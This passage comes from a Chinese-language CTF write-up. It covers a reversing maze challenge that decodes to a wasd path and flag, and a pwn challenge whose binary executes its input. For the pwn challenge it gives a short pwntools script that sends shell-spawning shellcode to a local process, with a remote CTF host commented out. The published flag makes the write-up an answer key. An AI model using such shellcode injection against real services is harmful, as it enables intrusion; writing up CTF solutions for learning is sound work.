 首先判断输入长度是否为32字节，然后取5~30位进入到循环结构，根据输入值的不同向``dword_405060``数组中写入不同的值，若无匹配则返回0。程序正常循环结束后会返回``1``

``sub_40145A``函数如下：

![](https://i.loli.net/2019/10/21/EIQx5RliO7hMkWA.png)

主体是一个循环体：每次``v3``加上``数组dword_402068``的第``dword_405060[i]``位数；``v4``加上``数组dword_402078``的第``dword_405060[i]``位数。然后3个if条件，如果``v2\v3``大于9或者小于0；``byte_402000[10 * v3 + v2] == 3``则返回``0``。只有``byte_402000[10 * v3 + v2] == 43``才返回``1``。

``dword_402068``、``dword_402078``两个数组值：

![](https://i.loli.net/2019/10/21/dbfcxk64YGTSvgu.png)

``byte_402000``数值值

![](https://i.loli.net/2019/10/21/4XIFmPnx9VZToBk.png)

根据``sub_40145A()``内部结构，一开始推测是用``wasd``控制每次循环读取``byte_402000``的位置，也就是避开``#``、控制最后读取是``+``，但是发现长度不对。在师兄提点下发现是用一维数组代表二维数组，从这里看出来的：

![](https://i.loli.net/2019/10/21/YBaJ5erWkcRVIOn.png)

``10*v3``代表的是行号，还有给出提示一行有10个元素（v3+1就读取跳了10位，相当于读取下一行同一列的元素）。``v2``代表列号。以此将``byte_402000``数值的值转换为二维数组，如图所示：

![](https://i.loli.net/2019/10/21/4pPK5ovG6dDxAzE.png)

出发点就是``v2\v3``的初始值，用``wasd``控制移动，最后移动到``+``。

#### flag

``flag{wwwwaaasssaassssdddssddddw}``



## Pwn

### shellcode

32位只开PIE保护

![](https://i.loli.net/2019/10/21/l1WrJXvzLHQfwFx.png)

直接运行：

![](https://i.loli.net/2019/10/21/IEbAnXaVgzfYJ8Q.png)

IDA打开发现直接程序将输入的，当成命令执行了。那么直接输入shellcode就行了。

![](https://i.loli.net/2019/10/21/T8SkDXMtlVKq4xC.png)

#### 脚本

```python 
from pwn import *

context.log_level = 'debug'
p = process("./shellcode")
#p = remote("139.199.10.70",10003)


p.recv()
p.sendline(asm(shellcraft.sh()))

p.interactive()
```
